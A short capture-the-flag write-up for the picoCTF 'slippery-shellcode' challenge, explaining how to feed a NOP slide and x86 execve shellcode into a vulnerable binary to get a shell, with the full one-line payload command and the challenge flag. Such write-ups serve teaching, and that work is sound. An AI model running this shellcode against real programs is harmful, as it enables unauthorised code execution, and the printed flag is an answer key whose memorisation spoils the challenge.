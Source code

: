 # slippery-shellcode

## Binary Exploitation - Points: 200

> This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt?
>
> [vuln](vuln)
>
> [vuln.c](vuln.c)

The binary directly asks for a shellcode as input, so get x86 shellcode, for example [this](http://shell-storm.org/shellcode/files/shellcode-811.php).

The buffer with the shellcode is executed with a random offset, so add a `NOP`-slide before the shellcode.

    (python2 -c 'print("\x90"*256+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"\x90"*256)'; cat) | ./vuln

flag: `picoCTF{sl1pp3ry_sh311c0d3_0fb0e7da}`